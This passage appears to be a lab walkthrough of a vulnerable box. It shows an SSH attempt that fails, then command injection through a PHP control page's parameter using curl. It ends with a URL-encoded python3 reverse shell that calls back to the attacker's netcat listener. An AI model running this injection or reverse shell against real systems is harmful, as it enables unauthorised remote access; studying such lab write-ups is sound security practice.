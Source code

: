And some cool passwords!

## User

Now that we have some usernames and passwords, we can try to see if it will work over `ssh`.

```
[ main ✓ ] ❯ ssh john@192.168.0.83
The authenticity of host '192.168.0.83 (192.168.0.83)' can't be established.
ECDSA key fingerprint is SHA256:nKvtOO2gybF1JTzDAzMEphpUdeq3LtFcnzjfFVQxoz8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.0.83' (ECDSA) to the list of known hosts.
john@192.168.0.83: Permission denied (publickey).
```

Unfortunetly, it appears that we need a private key to log in. Deciding to revisit, `control.php`, logging in to the site as `admin` using their password, and afterwards try the command injection again with the correct `PHPSESSID`.

```kali@kali ~/Documents/iakeyring/keyring/html
[ main ✓ ] ❯ curl http://192.168.0.83/control.php?cmdcntr=id -b PHPSESSID=8dcclmcf7jn9bhm78cgmpb1gcc | html2text
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   785  100   785    0     0   8532      0 --:--:-- --:--:-- --:--:--  8532
    * Home
    * Control
    * About
    * Logout
HTTP Parameter Pollution or HPP in short is a vulnerability that occurs
due to passing of multiple parameters having same name

Date & Time : 2021-11-04 03:26:21uid=33(www-data) gid=33(www-data) groups=33
(www-data)
```

Success! We now have `RCE` on the host. Time to run a `reverse shell` to get access to the box. Using [revshells](https://www.revshells.com/), we can quickly and easily create a `reverse shell` with url-encoding using `python3`.

```
[ main ✓ ] ❯ curl http://192.168.0.83/control.php?cmdcntr=export%20RHOST%3D%22192.168.0.94%22%3Bexport%20RPORT%3D9001%3Bpython3%20-c%20%27import%20sys%2Csocket%2Cos%2Cpty%3Bs%3Dsocket.socket%28%29%3Bs.connect%28%28os.getenv%28%22RHOST%22%29%2Cint%28os.getenv%28%22RPORT%22%29%29%29%29%3B%5Bos.dup2%28s.fileno%28%29%2Cfd%29%20for%20fd%20in%20%280%2C1%2C2%29%5D%3Bpty.spawn%28%22sh%22%29%27 -b PHPSESSID=8dcclmcf7jn9bhm78cgmpb1gcc
```

And we recieve a call back on our listener!

```
❯ nc -lvnp 9001
listening on [any] 9001 ...
connect to [192.168.0.94] from (UNKNOWN) [192.168.0.83] 35910
$ whoami
whoami
www-data
```
